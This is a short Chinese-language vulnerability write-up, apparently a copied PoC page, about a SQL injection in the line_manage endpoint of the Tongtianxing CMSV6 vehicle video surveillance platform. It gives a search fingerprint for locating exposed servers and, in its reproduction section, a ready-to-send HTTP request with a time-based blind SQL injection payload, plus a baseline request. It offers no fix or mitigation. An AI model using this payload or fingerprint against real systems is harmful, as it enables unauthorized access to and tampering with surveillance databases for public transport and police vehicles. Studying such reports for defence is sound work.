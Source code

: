 # 通天星CMSV6车载视频监控平台 line_manage存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台line_manage存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/F4enrv2hHyz0sLln/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-130124.png)

# 四、漏洞复现
```rust
GET /line_manage/delete;downloadLogger.action?ids=1+AND+%28SELECT+4476+FROM+%28SELECT%28SLEEP%285%29%29%29ytWS%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717262506770-17a548a5-f207-4114-9195-5660ad1b8153.png](./img/F4enrv2hHyz0sLln/1717262506770-17a548a5-f207-4114-9195-5660ad1b8153-218646.png)

```rust
GET /line_manage/delete;downloadLogger.action?ids=1 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717262527580-86540e20-0078-4842-abdf-59e984bacf4f.png](./img/F4enrv2hHyz0sLln/1717262527580-86540e20-0078-4842-abdf-59e984bacf4f-620776.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nwh3iqsrt23310w9>